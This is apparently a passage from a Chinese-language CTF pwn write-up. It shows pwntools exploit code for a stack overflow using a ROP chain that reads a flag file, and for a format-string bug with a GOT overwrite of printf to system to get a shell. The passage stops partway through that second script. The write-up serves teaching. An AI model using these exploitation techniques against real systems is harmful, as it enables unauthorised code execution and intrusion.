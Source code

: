```py
p.sendline(b"a"*0x118+p64(proc_leak)) # 因为相当于栈迁移了一次
pop_rdi_ret = proc_base + 0x13db
pop_rsi_ret = proc_base + 0x13d9 # pop rsi r15
flag_addr = proc_base + 0x4050
pop_rax_ret = proc_base + 0x00119B
syscall = 0x119D + proc_base
pop_rdx_ret = 0x01199 + proc_base

ropchain = p64(pop_rdi_ret) + p64(0x100000000-100)+p64(pop_rsi_ret)+p64(flag_addr)+p64(0)+p64(pop_rdx_ret)+p64(0)+p64(pop_rax_ret)+p64(257)+p64(syscall)+p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(flag_addr)+p64(0)+p64(pop_rdx_ret)+p64(0x30)+p64(pop_rax_ret)+p64(0)+p64(syscall)+p64(pop_rdi_ret)+p64(1)+p64(pop_rsi_ret)+p64(flag_addr)+p64(0)+p64(pop_rdx_ret)+p64(0x30)+p64(pop_rax_ret)+p64(1)+p64(syscall)
p.recvuntil("What is your name, epic H4x0r?\n")
p.sendline("flag\x00")
# gdb.attach(p,"b* $rebase(0x1379)")
# pause()
p.recvuntil("<|;)\n")
p.sendline(b"a"*0x118+ropchain)

p.interactive()

```

## take note
给了格式化字符串漏洞，保护是 no relro 所以可以写 got 表，写 `printf` 为 `system` 地址然后让他 "printf" "/bin/sh\x00" 即可得到    
### exp
```py
from pwn import *
context(log_level='debug', arch='amd64', os='linux')
p = process("./chal")
p.recvuntil("How many notes do you need to write?\n")
p.send("10")
def mywrite(idx,content):
    p.recvuntil("3. Exit\n\n")
    p.sendline("1")
    p.recvuntil("Which note do you want to write to? [0 - 9]\n")
    p.sendline(str(idx))
    p.send(content)

def myread(idx):
    p.recvuntil("3. Exit\n\n")
    p.sendline("2")
    p.recvuntil("Which note do you want to print?\n")
    p.sendline(str(idx))

mywrite(0,"%19$p"+"%18$p"+"%23$p"+"\n")

myread(0)
p.recvuntil("Your note reads:\n\n")
leak_line = p.recvline()

leak_addrs = [int(i,16) for i in leak_line.split(b"0x")[1:]]
proc_leak = leak_addrs[0]
stack_leak = leak_addrs[1]
libc_leak = leak_addrs[2]
log.info("proc_leak: "+hex(proc_leak))
log.info("stack_leak: "+hex(stack_leak))
log.info("libc_leak: "+hex(libc_leak))
proc_base = proc_leak - 0x158b
libc_base = libc_leak - 0x24083
log.info("proc_base: "+hex(proc_base))
```
